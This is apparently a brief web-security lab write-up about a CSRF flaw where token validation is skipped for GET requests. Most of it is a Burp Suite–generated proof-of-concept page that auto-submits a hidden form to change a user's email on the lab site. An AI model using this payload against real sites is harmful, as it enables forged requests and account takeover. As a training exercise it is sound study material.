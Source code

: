 # Lab: CSRF where token validation depends on request method

This is the same as the first lab, except the request contains a CSRF token. However, the application doesn't properly validate the token when `method="GET"`
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://aca81faa1e78305ec04fe6b000c10061.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
      <input type="hidden" name="csrf" value="<value>" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```